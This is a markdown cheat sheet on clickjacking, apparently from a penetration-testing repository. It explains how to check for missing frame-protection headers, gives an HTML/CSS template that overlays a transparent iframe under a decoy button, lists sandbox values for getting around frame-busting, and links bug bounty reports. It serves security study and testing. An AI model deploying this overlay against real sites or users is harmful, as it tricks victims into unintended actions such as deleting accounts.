 # Clickjacking (UI redressing)

>Clickjacking refers to any attack where the user is tricked into unintentionally clicking an unexpected web page element. The name was coined from click hijacking, and the technique is most often applied to web pages by overlaying malicious content over a trusted page or by placing a transparent page on top of a visible one. When the user clicks an innocent-looking item on the visible page, they are actually clicking the corresponding location on the overlaid page and the click triggers a malicious action – anything from faking a like or follow on social media to siphoning money from the user’s bank account.

![netsparker image](https://dpsvdv74uwwos.cloudfront.net/statics/img/ogimage/clickjacking-attacks.png)

## Summary 
- [Clickjacking (UI redressing)](#clickjacking-ui-redressing)
  - [Summary](#summary)
  - [Check whether a web page can be loaded in iframe](#check-whether-a-web-page-can-be-loaded-in-iframe)
  - [Exploits](#exploits)
  - [Bypass browser extensions](#bypass-browser-extensions)
  - [Hackerone Reports :](#hackerone-reports)
  - [References](#references)

## Check whether a web page can be loaded in iframe

Send a request to the target and make sure that the response doesn't contain one of the following Headers

```bash
 X-Frame-Options: deny
 X-Frame-Options: sameorigin
 X-Frame-Options: allow-from https://specified-websites.com
 Content-Security-Policy: frame-ancestors 'self';
 Content-Security-Policy: frame-ancestors specified-website.com; 
```


## Exploits 

:fire: **Example :**

Copy this to your website

```bash
<style>
   iframe {
       position:relative;
       width:$width_value;
       height: $height_value;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:$top_value;
       left:$side_value;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="$url"></iframe>
```

 - `$url` : URL of the malicious Content

 - `$opacity` : Hide the malicious content with `0.0001` value

 - `$width_value` : width value of the malicious content

 - `$height_value` : height value of the malicious content

 - `$top_value` & `$side_value`  are used to move the div in top of the malicious content

**now when the victim click something inside the div in fact he is clicking the malicious content too**

for example : you hide `delete account` button ... and you show `Download Now` button
***

**And you send your website to the victim** 

## Bypass browser extensions

while : `allow-top-navigation` value is omitted

```bash
sandbox="allow-forms"
```
```bash
sandbox="allow-scripts"
```

**Example :**  

```bash
<iframe sandbox="allow-forms" src="$url"></iframe>
```


## Hackerone Reports :

[Twitter Periscope Clickjacking Vulnerability](https://hackerone.com/reports/591432) $1120


[Clickjacking at ylands.com](https://hackerone.com/reports/405342) $80



## References

- [Netsparker](https://www.netsparker.com/blog/web-security/clickjacking-attacks/)
- [Portswigger](https://portswigger.net/web-security/clickjacking)